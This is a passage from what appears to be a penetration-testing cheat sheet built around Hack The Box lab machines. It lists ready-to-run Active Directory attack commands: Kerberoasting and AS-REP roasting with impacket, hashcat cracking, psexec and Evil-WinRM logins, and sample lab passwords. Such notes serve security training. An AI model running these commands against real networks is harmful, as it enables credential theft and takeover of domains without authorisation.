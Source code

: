 Export the .ccache file 
```
export KRB5CCNAME=svc_tgs.ccache
```

#### impacket-GetUserSPNs
```
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

#### crack krb5 tgs hash
```
hashcat -m 13100 GetUserSPNs.out /usr/share/wordlists/rockyou.txt 
```

#### impacket-psexec
psexec in as administrator with cracked password
```
impacket-psexec active.htb/Administrator:Ticketmaster1968@active.htb
```

#### impacket-ticketConverter
```
impacket-ticketConverter ticket.kirbi ticket.ccache 
```
### AS-REP Roasting
Find users with Kerberos Pre-Authentication disabled 
#### impacket-GetNPUsers
```
impacket-GetNPUsers -dc-ip 10.10.10.161 -request 'htb.local/'
```

Knowing or guessing username 
```
impacket-GetNPUsers -dc-ip 10.10.10.175 -request 'egotistical-bank.local/FSmith'
```
#### Crack the AS-REP hash with hashcat
```
hashcat -m 18200 svc.hash /usr/share/wordlists/rockyou.txt 
```

## Evil-WinRM

Login with password
```
evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

Login with NT Hash 
```
evil-winrm -i 10.10.11.236 -H <NT HASH> -u administrator
```

Login with cert and pem files over winrm over ssl (5986)
```
evil-winrm -S -i 10.10.11.152 -c key.cert -k key.pem
```
